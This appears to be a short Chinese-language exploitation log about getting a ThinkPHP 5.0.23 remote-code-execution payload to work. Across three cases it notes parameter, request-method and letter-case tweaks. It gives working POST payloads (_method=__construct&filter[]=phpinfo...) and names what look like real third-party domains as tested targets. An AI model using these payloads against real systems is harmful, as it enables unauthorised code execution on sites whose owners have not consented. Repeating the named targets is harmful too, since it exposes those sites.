Thinkphp命令执行记录几个不一样的地方

## 情况一

扫描器给出扫描结果

[+] 存在ThinkPHP 5.0.23 RCE
Payload: https://api.bjwzjs.com/?s=captcha&test=-1 Post: _method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1



去掉test参数也不行



==变换请求方式==，结果可以



注意，如果只是变换请求方式，不加test参数，也是不行的



## 情况二

只使用captcha参数，不行



去掉post请求体后呢，发现可以显示验证码，证明是存在的验证码这个参数的



同时使用captcha和test参数，发现也不行



当使用非captcha参数时候反而可以

https://ego.hzlyhs.com/index.php?test=-1

poc为：_method=__construct&filter[]=phpinfo&method=post&server[REQUEST_METHOD]=1



## 情况三

注意有时候需要注意大小写

如这里，填写小写post不行，但是大写POST可以成功执行



感觉很神奇



同理，这里get不行，但是GET可以



